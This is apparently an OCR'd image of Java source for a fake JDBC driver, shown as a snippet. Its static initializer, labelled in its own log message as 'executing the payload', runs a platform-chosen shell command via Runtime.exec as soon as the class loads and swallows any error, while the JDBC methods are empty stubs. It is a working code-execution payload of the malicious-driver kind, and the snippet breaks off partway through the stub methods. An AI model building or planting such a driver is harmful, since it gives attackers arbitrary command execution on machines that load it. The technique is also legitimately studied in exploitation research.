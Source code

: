 ```
    protected static  String shell;

    protected static  String args;

    protected static  String cmd;



    static{
        if(DEBUG){
            Logger.getGlobal().info("Entered static JDBC driver initialization block, executing the payload...");
        }


        if( System.getProperty("os.name").toLowerCase().contains("windows") ){

            shell = "cmd.exe";
            args = "/c";
            cmd = WindowsCmd;
        } else {

            shell = "/bin/sh";
            args = "-c";
            cmd = LinuxCmd;
        }
        try{

            Runtime.getRuntime().exec(new String[] {shell, args, cmd});

        } catch(Exception ignored) {

        }
    }




    // JDBC methods below


    public boolean acceptsURL(String url){
        if(DEBUG){
            Logger.getGlobal().info("acceptsURL() called: "+url);
        }

        return false;
    }

    public Connection connect(String url, Properties info){
        if(DEBUG){
            Logger.getGlobal().info("connect() called: "+url);
        }

        return null;
    }


    public int getMajorVersion(){
        if(DEBUG){
            Logger.getGlobal().info("getMajorVersion() called");
        }

```